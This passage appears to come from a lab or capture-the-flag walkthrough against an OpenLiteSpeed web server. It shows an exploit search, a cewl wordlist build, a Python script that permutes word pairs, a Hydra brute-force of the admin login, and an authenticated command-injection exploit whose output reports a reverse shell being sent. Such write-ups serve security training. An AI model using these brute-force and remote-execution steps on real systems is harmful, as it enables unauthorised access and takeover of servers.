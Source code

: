```
$ searchsploit openlitespeed
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
OpenLitespeed 1.3.9 - Use-After-Free (Denial of Service)   | linux/dos/37051.c
Openlitespeed 1.7.9 - 'Notes' Stored Cross-Site Scripting  | multiple/webapps/49727.txt
Openlitespeed Web Server 1.7.8 - Command Injection (Authen | multiple/webapps/49483.txt
Openlitespeed WebServer 1.7.8 - Command Injection (Authent | multiple/webapps/49556.py
----------------------------------------------------------- ---------------------------------
```

One of which is an RCE exploit, but it requires credentials. Weak credentials don't work here, so we need to get crafty. We know that 'Jane Foster' is the one operating this webpage. So let's create a custom wordlist present.&#x20;

```
$ cewl http://192.168.201.208 -d 5 --with-numbers > wordlist
```

I tried to use Hydra to brute force this, but it didn't work either. I took a hint and it told me to keep brute forcing, so in this case we can try the permutation of words within our `wordlist` file.&#x20;

```python
import itertools

filename = 'wordlist'
permutations = []

with open(filename, 'r') as file:
    wordlist = [line.strip() for line in file]

for combination in itertools.permutations(wordlist, 2):
    permutation = ''.join(combination)
    print(permutation)
```

This would combine two of the words together. Then, we can brute force again with Hydra.&#x20;

```
$ hydra -l admin -P permutated.txt -s 7080 -t 64 192.168.201.208 https-post-form "/login.php:userid=admin&pass=^PASS^:Invalid credential" -v
[7080][http-post-form] host: 192.168.201.208   login: admin   password: Foster2020
```

This would find the correct password. We can then use the RCE exploit:

```
$ python3 49556.py 192.168.201.208:7080 admin Foster2020 shadow
[+] Authentication was successful!
[+] Version is detected: OpenLiteSpeed 1.7.8
[+] The target is vulnerable!
[+] tk value is obtained: 0.51264900 1689392604
[+] Sending reverse shell to 127.0.0.1:4444 ...
[+] Triggering command execution..
```
